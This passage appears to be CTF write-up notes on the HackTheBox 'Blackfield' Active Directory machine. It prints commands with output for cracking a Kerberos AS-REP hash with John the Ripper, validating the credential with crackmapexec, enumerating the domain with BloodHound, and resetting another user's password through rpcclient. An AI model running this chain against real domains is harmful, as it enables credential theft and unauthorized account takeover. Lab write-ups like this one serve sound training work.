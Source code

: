```bash

```


```bash
$ john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:21 DONE (2022-02-11 09:32) 0.04608g/s 660597p/s 660597c/s 660597C/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```bash
$ crackmapexec smb 10.129.155.211 -d blackfield.local -u support -p '#00^BlackKnight'
SMB         10.129.155.211  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.155.211  445    DC01             [+] blackfield.local\support:#00^BlackKnight 
```

```bash
$ bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.155.211 --zip                    
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 04S
INFO: Compressing output into 20220211094020_bloodhound.zip
```

evil-winrm does not work

https://malicious.link/post/2017/reset-ad-user-password-with-linux/

$ rpcclient -U blackfield.local/support 10.129.155.211
Enter BLACKFIELD.LOCAL\support's password: 
rpcclient $> setuserinfo audit2020 23 Qwerty1!
rpcclient $> 


$ crackmapexec smb 10.129.155.211 -d blackfield.local -u audit2020 -p 'Qwerty1!'
SMB         10.129.155.211  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.155.211  445    DC01             [+] blackfield.local\audit2020:Qwerty1! 
